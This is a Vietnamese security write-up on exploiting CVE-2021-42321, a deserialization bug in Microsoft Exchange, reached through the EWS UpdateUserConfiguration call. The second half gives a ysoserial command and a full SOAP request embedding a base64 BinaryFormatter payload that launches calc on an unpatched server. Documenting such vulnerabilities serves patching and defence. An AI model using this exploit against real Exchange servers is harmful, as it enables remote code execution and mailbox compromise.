







Ở bản vá tháng 11 của Exchange, một lỗ hổng có mã CVE-2021-42321 được Microsoft tức tốc cảnh báo người dùng phải nhanh chóng cập nhật bản vá để tránh bị khai thác. 
Bài PoC chi tiết về quá trình diff code và phân tích đã có [Blog của NCSC](https://blog.khonggianmang.vn/phan-tich-ban-va-thang-11-cua-microsoft-exchange/), ở đây mình chỉ nêu thêm một số lưu ý và bước cuối trong quá trình exploit.

## Exchange Web Service (EWS)
Ngoài hai endpoint chính là /ecp và /owa để quản lý cấu hình và hộp thư, Exchange còn có /ews cho webservice.
EWS cung cấp cho người dùng khả năng giao tiếp với máy chủ Exchange thông qua các SOAP request, đồng nghĩa với việc request và response được biểu diễn dưới dạng XML. 
Template XML được định nghĩa từ các file schema và wsdl trên virtual directory của máy chủ Exchange. Các tệp này có thể truy cập bằng browser qua các Url dưới đây.
- http://[yourclientaccessserver].com/ews/services.wsdl — The location of the WSDL file.
- http://[yourclientaccessserver].com/ews/messages.xsd — The location of the messages schema.
- http://[yourclientaccessserver].com/ews/types.xsd — The location of the types schema.

Endpoint để giao tiếp với máy chủ Exchange mặc định là /EWS/Exchange.asmx tuy nhiên trên môi trường product nên sử dụng __Autodiscover__ để xác định url của ews chính xác.

## User configuration
Như ở bài blog của NCSC, hàm gây ra lỗi là hàm __TryDeserialize__ của lớp __Microsoft.Exchange.Data.ApplicationLogic.Extension.OrgExtensionSerializer__



Đặt debug ở hàm gây lỗi, sử dụng chức năng trên trang add-ins ở /ecp để quan sát biến userConfiguration


Quan sát thấy userConfiguration có thuộc tính ConfigurationName là **ExtensionMasterTable** và có dạng dictionary chứa 3 thuộc tính OrgDO, OrgExtV, OrgChkTm. 
Để hàm nhảy vào được đoạn deserialize thì tham số OrgDO của biến userConfiguration phải có giá trị là false, mặc định giá trị hiện tại đang là true.

Sau đấy cần tiếp tục tìm kiếm cách update user configuration, đoạn này ở trang [doc](https://docs.microsoft.com/en-us/exchange/client-developer/web-service-reference/updateuserconfiguration-operation) của Microsoft đã mô tả cực kỳ chi tiết. Ở tài liệu nhắc đến ở trên họ cũng đã cho mình một ví dụ hoàn chỉnh về SOAP request, cùng ngó qua một chút
  
```xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
               xmlns:m="https://schemas.microsoft.com/exchange/services/2006/messages"
               xmlns:t="https://schemas.microsoft.com/exchange/services/2006/types"
               xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
               xmlns:xs="http://www.w3.org/2001/XMLSchema">
  <soap:Header>
    <t:RequestServerVersion Version="Exchange2010" />
  </soap:Header>
  <soap:Body>
    <m:UpdateUserConfiguration>
      <m:UserConfiguration>
        <t:UserConfigurationName Name="TestConfig">
          <t:DistinguishedFolderId Id="drafts"/>
        </t:UserConfigurationName>
        <t:Dictionary>
          <t:DictionaryEntry>
            <t:DictionaryKey>
              <t:Type>String</t:Type>
              <t:Value>PhoneNumber</t:Value>
            </t:DictionaryKey>
            <t:DictionaryValue>
              <t:Type>String</t:Type>
              <t:Value>111-111-5555</t:Value>
            </t:DictionaryValue>
          </t:DictionaryEntry>
        </t:Dictionary>
      </m:UserConfiguration>
    </m:UpdateUserConfiguration>
  </soap:Body>
</soap:Envelope>
```
 
Từ ví dụ này có thể thấy một user configuration sẽ có các thành phần bắt buộc là Name cùng FolderId, bên dưới là các DictionaryEntry, cấu trúc này khớp với biến userConfiguration mình đã quan sát ở trên. Như vậy mình đã biết các thành phần là Name và DictionaryEntry, phải có thêm FolderId mới có thể update được config ExtensionMasterTable. ExtensionMasterTable là một config có sẵn trên Exchange, vậy khả năng folder của nó cũng đâu đó trong số những thằng có sẵn. Mình thử gửi bừa một get request để lấy thông tin của ExtensionMasterTable



Error 500 🙄🙄🙄🙄🙄🙄. Đến đây thì mình đã thử 7 7 49 chiêu nhưng response vẫn luôn là 500, k hiểu kiểu gì khi request được lấy từ chính doc. May mắn có người anh từng pwn2own Exchange vẫn còn giữ lại 1 request hồi đấy và gửi cho mình test thử. It worked! but why? Sau khi hết soi nổi bằng mắt thường thì mình quyết định dùng Winmerge để so sánh hai thằng với nhau, đúng ra nên dùng sớm hơn 😃.



Sửng sốt không hề nhẹ khi nhận ra khác biệt gây ra lỗi 500 là chỗ khai báo namespace, trang doc lại sử dụng https thay vì http. 🤐 Cạn lời ...
Trở lại với vấn đề xác định FolderId, sau khi đã giải quyết lỗi 500, test thử một số folder có sẵn, ngay thằng đầu tiên đã dính



Ngoài việc xác định được FolderId của ExtensionMasterTable là inbox, mình còn có được cấu trúc của nó để đưa vào request update (để đảm bảo không có vấn đề gì mình thường get trước sau đó sửa thông tin để đưa vào update). Update thử ExtensionMasterTable và kiểm tra lại bằng get request 



Ổn rồi, debug lại thử thôi. Sửng sốt again khi vẫn không thể nhảy vào đoạn code deserialize. Sau đó mình phát hiện ra việc sử dụng chức năng trên trang add-ins sẽ đưa ExtensionMasterTable sẽ bị đưa trở lại về giá trị mặc định (OrgDO=true) khiến việc update config của mình đến đây trở nên vô nghĩa. Nghĩ đến chuyện phải trace code vào sâu hơn để xác định chỗ đưa config trở về mặc định là trầm cảm, thôi thì mình thử fuzz chức năng trước, có thể chức năng nào đấy sẽ không reset config, ai biết được 🤷. Cuối cùng mình phát hiện ra __load lại trang add-ins__ sẽ không reset config. Nice.

## Exploit
Sau khi đã đạt được mục đích là vào được đến chỗ deserialize, cần tìm cách ráp một entry với type base64 vào ExtensionMasterTable + ysoserial để exploit. Trở lại với 3 file schema mô tả cấu trúc xml ở phần đầu mình có nhắc đến, type.xsd biểu diễn các type bên trong các request soap. Mình đang cần check type của UserConfiguration, search luôn bằng browser



Bên trong các node mẹ sẽ có thông tin các node con có thể có cùng cấp, quan sát thấy rằng cùng cấp với UserConfigurationName có hai node có type base64 là XmlData và BinaryData. Sử dụng một trong hai để đưa payload ysoserial vào bên trong. Câu lệnh tạo payload

```bash
.\ysoserial.exe -c "calc" -g TypeConfuseDelegate -f BinaryFormatter -o base64
```

Cấu trúc cuối cùng của soap request update ExtensionMasterTable

```xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
               xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages"
               xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types"
               xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
               xmlns:xs="http://www.w3.org/2001/XMLSchema">
  <soap:Header>
    <t:RequestServerVersion Version="Exchange2010" />
  </soap:Header>
  <soap:Body>
    <m:UpdateUserConfiguration>
      <m:UserConfiguration>
        <t:UserConfigurationName Name="ExtensionMasterTable">
          <t:DistinguishedFolderId Id="inbox"/>
        </t:UserConfigurationName>
<t:BinaryData>AAEAAAD/////AQAAAAAAAAAMAgAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BQEAAACEAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLlNvcnRlZFNldGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAFQ291bnQIQ29tcGFyZXIHVmVyc2lvbgVJdGVtcwADAAYIjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0IAgAAAAIAAAAJAwAAAAIAAAAJBAAAAAQDAAAAjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0BAAAAC19jb21wYXJpc29uAyJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyCQUAAAARBAAAAAIAAAAGBgAAAAcvYyBjYWxjBgcAAAADY21kBAUAAAAiU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcgMAAAAIRGVsZWdhdGUHbWV0aG9kMAdtZXRob2QxAwMDMFN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeS9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlci9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlcgkIAAAACQkAAAAJCgAAAAQIAAAAMFN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQcAAAAEdHlwZQhhc3NlbWJseQZ0YXJnZXQSdGFyZ2V0VHlwZUFzc2VtYmx5DnRhcmdldFR5cGVOYW1lCm1ldGhvZE5hbWUNZGVsZWdhdGVFbnRyeQEBAgEBAQMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BgsAAACwAlN5c3RlbS5GdW5jYDNbW1N5c3RlbS5TdHJpbmcsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5TdHJpbmcsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzLCBTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0GDAAAAEttc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkKBg0AAABJU3lzdGVtLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQYOAAAAGlN5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzBg8AAAAFU3RhcnQJEAAAAAQJAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyBwAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlClNpZ25hdHVyZTIKTWVtYmVyVHlwZRBHZW5lcmljQXJndW1lbnRzAQEBAQEAAwgNU3lzdGVtLlR5cGVbXQkPAAAACQ0AAAAJDgAAAAYUAAAAPlN5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzIFN0YXJ0KFN5c3RlbS5TdHJpbmcsIFN5c3RlbS5TdHJpbmcpBhUAAAA+U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MgU3RhcnQoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykIAAAACgEKAAAACQAAAAYWAAAAB0NvbXBhcmUJDAAAAAYYAAAADVN5c3RlbS5TdHJpbmcGGQAAACtJbnQzMiBDb21wYXJlKFN5c3RlbS5TdHJpbmcsIFN5c3RlbS5TdHJpbmcpBhoAAAAyU3lzdGVtLkludDMyIENvbXBhcmUoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykIAAAACgEQAAAACAAAAAYbAAAAcVN5c3RlbS5Db21wYXJpc29uYDFbW1N5c3RlbS5TdHJpbmcsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dCQwAAAAKCQwAAAAJGAAAAAkWAAAACgs=</t:BinaryData>
        <t:Dictionary><t:DictionaryEntry><t:DictionaryKey><t:Type>String</t:Type><t:Value>OrgDO</t:Value></t:DictionaryKey><t:DictionaryValue><t:Type>Boolean</t:Type><t:Value>false</t:Value></t:DictionaryValue></t:DictionaryEntry><t:DictionaryEntry><t:DictionaryKey><t:Type>String</t:Type><t:Value>OrgExtV</t:Value></t:DictionaryKey><t:DictionaryValue><t:Type>Integer32</t:Type><t:Value>0</t:Value></t:DictionaryValue></t:DictionaryEntry><t:DictionaryEntry><t:DictionaryKey><t:Type>String</t:Type><t:Value>OrgChkTm</t:Value></t:DictionaryKey><t:DictionaryValue><t:Type>Integer64</t:Type><t:Value>637729403684086495</t:Value></t:DictionaryValue></t:DictionaryEntry></t:Dictionary>
      </m:UserConfiguration>
    </m:UpdateUserConfiguration>
  </soap:Body>
</soap:Envelope>
```

Refresh lại trang add-ins, kết quả là process calc được tạo



## REFERENCES
[https://blog.khonggianmang.vn/phan-tich-ban-va-thang-11-cua-microsoft-exchange/](https://blog.khonggianmang.vn/phan-tich-ban-va-thang-11-cua-microsoft-exchange/)<br/>
[https://docs.microsoft.com/en-us/exchange/client-developer/web-service-reference/ews-xml-elements-in-exchange](https://docs.microsoft.com/en-us/exchange/client-developer/web-service-reference/ews-xml-elements-in-exchange)<br/>
[https://docs.microsoft.com/en-us/exchange/client-developer/web-service-reference/ews-operations-in-exchange](https://docs.microsoft.com/en-us/exchange/client-developer/web-service-reference/ews-operations-in-exchange)

